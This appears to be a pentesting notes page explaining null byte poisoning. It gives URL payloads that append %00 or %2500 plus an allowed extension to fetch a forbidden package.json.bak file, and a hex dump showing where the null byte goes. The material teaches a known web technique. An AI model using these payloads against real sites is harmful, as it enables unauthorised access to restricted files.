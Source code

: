 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Null Byte Poisoning

It's used to bypass input filtering or validation mechanisms in web applications or other systems. It involves inserting a null byte  in URL encoding  (`%00`) or in hexadecimal (`\x00`) to terminate strings.

* We requested a site to get a resource but gives us a 403 error (Forbidden access). The site tells us that only certain types or extensions are allowed to be requested

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/package.json.bak
```
{% endcode %}

***

* We can bypass the check with a null byte and add the type of extension the site allows. When making the verification it will be bypassed as it ends on an allowed extension, but internally when searching the file, the null byte will end the string allowing to get the deride file

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/package.json.bak%00.$extension
```
{% endcode %}

***

* Also, if it doesn't work this way, we can URL-encode the `%` which will be represented as `%25`

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/package.json.bak%2500.$extension
```
{% endcode %}

***

* Also is possible to get this result by modifying the hex data of the request and adding a null hex byte in the corresponding position

```
00000000  68 74 74 70  3A 2F 2F 24   75 72 6C 2F  70 61 63 6B   http://$url/pack
00000010  61 67 65 2E  6A 73 6F 6E   2E 62 61 6B  00 2E 24 65   age.json.bakA.$e
00000020  78 74 65 6E  73 69 6F 6E   0A                         xtension.  
```

{% hint style="info" %}
In this case, we replace the `A` that we have put as a reference, with the `00` byte
{% endhint %}

